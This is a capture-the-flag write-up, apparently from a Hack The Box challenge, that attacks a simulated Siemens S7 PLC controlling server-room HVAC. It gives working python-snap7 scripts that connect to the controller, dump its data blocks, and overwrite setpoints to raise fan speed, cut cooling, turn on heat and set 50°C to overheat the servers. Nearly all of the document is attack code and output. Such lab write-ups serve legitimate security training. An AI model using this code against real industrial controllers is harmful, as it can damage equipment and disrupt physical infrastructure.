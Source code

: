 Task Force Phoenix has infiltrated Volnaya’s server room, targeting their VHX-3000 HVAC system—a Siemens S7-based PLC controlling temperature, airflow, and cooling, there are `5` databases that holds the data.The sizes of the DBs are estimated to be `50` or `100` bytes. Your mission: sabotage the system to overheat the servers, triggering the start of the blackout. For our plan to succeed, we need to fulfill the following requirements: - Set the fan speed to 99%. - Reduce cooling to 10%. - Turn the heat on. - Set the target temperature to 50°C.

# Solve

First I have to learn how to access a PLC.

Turns out python has a library for it called snap7, I found some writeups to help understand how to connect and find CPU info.

```
import snap7
from snap7.util import *
client = snap7.client.Client()
client.connect('94.237.58.172', 0, 1, tcp_port=45455)
if client.get_connected():
    print(client.get_cpu_info())
```

```
Connected to PLC. CPU Info:
<S7CpuInfo ModuleTypeName: b'CPU 315-2 PN/DP' SerialNumber: b'S C-C2UR28922012' ASName: b'SNAP7-SERVER' Copyright: b'Original Siemens Equipment' ModuleName: b'CPU 315-2 PN/DP'>
```

We can adjust this to show the db contents and its respective ascii text to make it readable.

```
import snap7
from snap7.util import *
import struct

# Initialize Snap7 client
client = snap7.client.Client()

try:
    # Connect to PLC at IP 94.237.58.172, port 45455, Rack=0, Slot=1
    print("Connecting to PLC at 94.237.58.172:45455...")
    client.connect('94.237.58.172', 0, 1, tcp_port=45455)
    
    # Check connection
    if not client.get_connected():
        print("Failed to connect to PLC")
        exit(1)
    
    for db in range(1, 6):  # Adjusted to match your range (1–20)
        try:
            # Try reading 100 bytes, then fall back to 50 if it fails
            try:
                data = client.db_read(db_number=db, start=0, size=100)
            except Exception:
                data = client.db_read(db_number=db, start=0, size=50)
            
            print(f"\nDB{db} (Size: {len(data)} bytes):")
            
            # Attempt to interpret the first 4 bytes as different data types
            if len(data) >= 4:
                try:
                    real_value = struct.unpack('>f', data[:4])[0]
                    print(f"  First 4 bytes as REAL: {real_value}")
                except:
                    print(f"  First 4 bytes as REAL: Invalid")
                
                try:
                    int_value = struct.unpack('>h', data[:2])[0]
                    print(f"  First 2 bytes as INT: {int_value}")
                except:
                    print(f"  First 2 bytes as INT: Invalid")
                
                bool_value = data[0]
                print(f"  First byte as BOOL: {'True' if bool_value == 1 else 'False'}")
            
            # Print raw bytes in hex
            print(f"  Raw bytes (hex): {data.hex()}")
            
            # Check for ASCII strings (potential flags or HVAC parameters)
            try:
                ascii_str = data.decode('ascii', errors='ignore').strip()
                if ascii_str:
                    print(f"  ASCII decode: {ascii_str}")
            except:
                pass
            
        except Exception as e:
            print(f"  Error reading DB{db}: {e}")
    
except Exception as e:
    print(f"Error: {e}")
finally:
    # Clean up
    if client.get_connected():
        client.disconnect()
    client.destroy()
    print("\nDisconnected from PLC")

```

For example
```
DB1 (Size: 50 bytes):
  First 4 bytes as REAL: 3321236291584.0
  First 2 bytes as INT: 21569
  First byte as BOOL: False
  Raw bytes (hex): 5441524745542d54454d503a32304320534554504f494e543a323243204d41583a333043204d494e3a313043200000000000
  ASCII decode: TARGET-TEMP:20C SETPOINT:22C MAX:30C MIN:10C 
b'CPU : Address out of range'
```


![](Images/Pasted%20image%2020250526163203.png)

![](Images/Pasted%20image%2020250526163222.png)


After hours of trying to get it to work and working with HTB support, there was an issue with how I was replacing the DBs. But here is the working solve.

```
import snap7
from snap7.util import *
import time

# Initialize PLC client
plc = snap7.client.Client()

def connect_plc(ip, port):
    print(f"Connecting to PLC at {ip}:{port}...")
    try:
        plc.connect(ip, 0, 2, port)
        if plc.get_connected():
            print("Connected to PLC")
            return True
        else:
            print("Connection failed")
            return False
    except Exception as e:
        print(f"Connection error: {str(e)}")
        return False

try:
    # Try primary IP/port
    ip = '94.237.58.121'
    port = 39528
    if not connect_plc(ip, port):
        # Fallback to alternate IP/port
        ip = '94.237.123.198'
        port = 55705
        if not connect_plc(ip, port):
            print("Connection failed on alternate IP")
            exit(1)

    print("\nExecuting overheat sequence:")
    # Sequence of writes with specified offsets
    writes = [
        (1, 29, "MAX:65C"),          # DB1, offset 29
        (2, 0, "FAN:99%"),           # DB2, offset 0
        (3, 8, "COOL:10%"),          # DB3, offset 8
        (5, 0, "HEAT:ON "),           # DB5, offset 0
        (1, 0, "TARGET-TEMP:50C"),   # DB1, offset 0
    ]

    # Perform writes and verify
    for db_number, offset, value in writes:
        try:
            # Encode value as raw ASCII bytes
            data = value.encode('ascii')
            # Write to specific offset
            plc.db_write(db_number, offset, data)
            print(f"Wrote {value} to DB{db_number} at offset {offset}")
            
            # Read entire DB to verify (50 bytes, adjust if needed)
            result = plc.db_read(db_number, 0, 50)
            hex_content = result.hex()
            ascii_content = result.decode('ascii', errors='ignore').strip()
            print(f"DB{db_number} raw bytes (hex): {hex_content}")
            print(f"DB{db_number} content (ASCII): {ascii_content}")
            
        except Exception as e:
            print(f"Error writing to DB{db_number} at offset {offset}: {str(e)}")
            raise
        
        time.sleep(1)  # Delay between writes

    # Read DB4 multiple times to check for flag
    print("\nReading DB4 to check for flag or state update...")
    for i in range(5):  # Try 5 times with delay
        try:
            db4_data = plc.db_read(db_number=4, start=0, size=100)
            hex_content = db4_data.hex()
            ascii_content = db4_data.decode('ascii', errors='ignore').strip()
            print(f"DB4 read {i+1} raw bytes (hex): {hex_content}")
            print(f"DB4 read {i+1} content (ASCII): {ascii_content}")
            if "LOG:" in ascii_content and "LOG:-" not in ascii_content:
                log_value = ascii_content.split("LOG:")[1].strip()
                print(f"Potential flag in LOG: {log_value}")
            time.sleep(10)  # Wait 10 seconds between reads
        except Exception as e:
            print(f"Error reading DB4 on attempt {i+1}: {str(e)}")
            # Try reconnecting
            plc.disconnect()
            if connect_plc(ip, port):
                print("Reconnected to PLC for next read")
            else:
                print("Reconnection failed, stopping DB4 reads")
                break

except Exception as e:
    print(f"Connection error: {str(e)}")

finally:
    if plc.get_connected():
        plc.disconnect()
    plc.destroy()
    print("Disconnected from PLC")

```